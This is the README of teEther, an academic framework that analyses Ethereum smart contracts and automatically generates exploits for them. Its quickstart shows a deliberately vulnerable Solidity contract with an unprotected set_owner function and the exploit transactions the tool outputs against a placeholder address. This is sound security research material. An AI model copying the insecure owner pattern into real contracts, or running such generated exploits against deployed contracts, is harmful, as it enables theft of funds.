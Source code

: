 # teEther - Analysis and automatic exploitation framework for Ethereum smart contracts

teEther is an analysis tool for Ethereum smart contracts.
It can
* [disassemble EVM bytecode](./teether/cfg/disassembly.py#L13)
* [perform backward slicing](./teether/slicing.py#L123)
* [execute EVM bytecode](./teether/evm/evm.py#L31)
* [execute EVM bytecode **symbolically**](./teether/evm/evm.py#L290)
* [plot nice CFGs](./bin/plot_cfg.py)
* [create exploits for vulnerable smart contracts](./bin/gen_exploit.py)

## Quickstart

1. Install `teEther`
```bash
python setup.py install
```

1. Write your vulnerable smart contract
```solidity
pragma solidity ^0.4.0;

contract Test{

    struct Transaction{
        address to;
        uint amount;
    }

    mapping (bytes32 => Transaction) transactions;

    address owner;
    
    function set_owner(address new_owner){
        owner = new_owner;
    }
    
    function new_transaction(address to, uint amount) returns (bytes32){
        bytes32 token = sha3(to, amount);
        Transaction storage t = transactions[token];
        t.to = to;
        t.amount += amount;
        return token;
    }
    
    function approve(bytes32 token){
        require(owner == msg.sender);
        Transaction storage t = transactions[token];
        t.to.transfer(t.amount);
        delete transactions[token];
    }
    
}
```

2. Compile your contract
```
$ solc --bin test.sol | tail -n1 > test.code
```

3. Extract the deployed contract code
```
$ python bin/extract_contract_code.py test.code > test.contract.code
```

4. Generate an exploit
```
$ python bin/gen_exploit.py test.contract.code 0x1234 0x1000 +1000

...
eth.sendTransaction({from:"0x0000000000000000000000000000000000001234", data:"0x7cb97b2b0000000000000000000000000000000000000000000000000000000000001000", to:"0x4000000000000000000000000000000000000000", gasPrice:0})
eth.sendTransaction({from:"0x0000000000000000000000000000000000001234", data:"0x0129ab2700000000000000000000000000000000000000000000000000000000000012340000000000000000000000000000000000000000000000016bc75e2d63100103", to:"0x4000000000000000000000000000000000000000", gasPrice:0})
eth.sendTransaction({from:"0x0000000000000000000000000000000000001234", data:"0xa53a1adfce9e2ef9fe2568f35b22f98bb749862a13e0abd291c6ba4967016d629412829d", to:"0x4000000000000000000000000000000000000000", gasPrice:0})

```

## Academia

Our paper [**teEther: Gnawing at Ethereum to Automatically Exploit Smart Contracts**](https://publications.cispa.saarland/2612/1/main.pdf) was published at the [27th USENIX Security Symposium (Usenix Security 18)](https://www.usenix.org/conference/usenixsecurity18/presentation/krupp) ([slides](https://www.usenix.org/sites/default/files/conference/protected-files/security18_slides_krupp.pdf), [video](https://www.youtube.com/watch?v=mW4jQzPVP_A)).

```bibtex
@inproceedings{teEther2018,
          author = {Johannes Krupp and Christian Rossow},
       publisher = {USENIX Association},
       booktitle = {27th USENIX Security Symposium (USENIX Security 18)},
            year = {2018},
           title = {{teEther: Gnawing at Ethereum to Automatically Exploit Smart Contracts}},
             url = {https://publications.cispa.saarland/2612/},
}
```
